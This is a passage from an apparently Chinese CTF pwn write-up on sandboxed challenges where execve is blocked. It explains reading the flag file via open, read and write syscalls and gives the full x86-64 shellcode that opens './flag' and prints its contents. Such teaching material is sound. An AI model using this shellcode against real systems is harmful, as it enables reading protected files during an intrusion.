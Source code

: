 https://blog.csdn.net/qq_54218833/article/details/134205383

## 0x01. execve

这个是最为简单的一类题型，不能直接获得 shell，但是可以通过 open、read、write 三个系统调用将 flag 文件首先保存到内存之中再输出到控制台。

```
    mov rax, 0x67616c662f2e
    push rax
    mov rdi, rsp
    xor edx, edx
    xor esi, esi
    push SYS_open
    pop rax
    syscall
    
    push 3
    pop rdi
    push 0xFF   /* read size */
    pop rdx
    mov rsi, rsp
    push SYS_read
    pop rax
    syscall
    
    push 1
    pop rdi
    push 0xFF   /* write size */
    pop rdx
    mov rsi, rsp
    push SYS_write
    pop rax
    syscall

```

